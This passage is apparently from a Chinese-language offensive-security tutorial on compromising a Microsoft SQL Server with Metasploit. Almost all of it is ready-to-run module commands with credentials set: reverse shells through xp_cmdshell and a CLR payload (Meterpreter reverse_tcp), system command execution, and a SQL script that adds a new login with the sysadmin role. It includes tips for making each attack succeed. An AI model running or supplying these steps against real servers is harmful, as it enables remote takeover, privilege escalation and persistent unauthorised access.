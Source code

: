 ### 通过xp\_cmdshell反弹shell

```php
use exploit/windows/mssql/mssql_payload
set rhosts 192.168.3.130
set username sa
set password admin
set method old
exploit
```

由于mssql服务器的系统版本较低，因此method选择为old，否则可能反弹Shell失败  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b3b93472c8d2512b90134d5991cffe42c1395a36.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-7c75b58ad131aecbdc680665dd36ec892eea59a1.png)

### 执行系统命令

```php
use auxiliary/admin/mssql/mssql_exec
set rhosts 192.168.3.130
set username sa
set password admin
set cmd "net user"
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-49ae80301888923c2387b2179d14893ddc48e552.png)

### 添加mssql用户

创建user.sql文件，记住把密码设置复杂一点，否则数据库可能由于密码过于简单而添加失败

```php
CREATE LOGIN test1 WITH PASSWORD = 'admin@123';
EXEC master..sp_addsrvrolemember @loginame = N'test1', @rolename = N'sysadmin'; //设置为管理员用户
```

```php
use auxiliary/admin/mssql/mssql_sql_file
set rhosts 192.168.3.130
set username sa
set password admin
set sql_file user.sql
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-894a067c70203001c2ad4c7b59fa4cf1799204be.png)  
可以看到用户已经成功添加![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-910114a2ec0a1c57f69f02db6ecc7f48dec3355b.png)

### 使用CLR执行命令反弹Shell

```php
use exploit/windows/mssql/mssql_clr_payload
set payload windows/meterpreter/reverse_tcp
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```
